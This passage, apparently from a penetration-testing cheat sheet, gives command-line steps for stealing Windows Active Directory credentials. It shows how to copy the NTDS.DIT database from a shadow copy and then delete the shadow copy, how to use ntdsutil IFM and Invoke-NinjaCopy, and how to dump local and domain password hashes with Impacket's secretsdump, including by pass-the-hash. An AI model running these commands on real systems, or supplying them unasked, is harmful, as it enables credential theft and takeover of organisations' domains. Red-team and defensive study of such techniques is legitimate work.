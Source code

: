 * Copy the NTDS.DIT from the new volume shadow copy
```
> copy <volume_name>\windows\ntds\ntds.dit <where_to_copy>
```

* Delete the previously created volume shadow copy:
```
> vssadmin delete shadows /shadow=<volume_guid>
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Do you really want to delete 1 shadow copies (Y/N): [N]? y

Successfully deleted 1 shadow copies.
```

2. NTDSUTIL's IFM creation:
> ntdsutil.exe is natively present on the DC
```
> ntdsutil "ac i ntds" "ifm" "create full <where_to_copy>" q q
```

3. [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1):
```
> Invoke-NinjaCopy -Path <ntds.dit> -ComputerName <dc> -LocalDestination <where_to_copy>
```

## Dumping hashes
### With [Impacket](https://github.com/CoreSecurity/impacket/)'s [secretsdump](https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py)
> Windows version: https://github.com/maaaaz/impacket-examples-windows/blob/master/secretsdump.exe

#### Local user accounts (server or workstation)
1. Offline (with the hives):
```
$ python secretsdump.py -sam <sam.hive> -security <security.hive> -system <system.hive> LOCAL
```

2. Online (without the hives):
* With administrator credentials:
```
$ python secretsdump.py [<domain>/]<username>:<password>@<server>
```

* By PtH (NTLM hash of an administrator account):
```
$ python secretsdump.py -hashes <LM>:<NTLM> [<domain>/]<username>@<server>
```

#### Domain user accounts
1. Offline (with the hives):
```
python secretsdump.py -ntds <ntds.dit> -system <system.hive> LOCAL
```
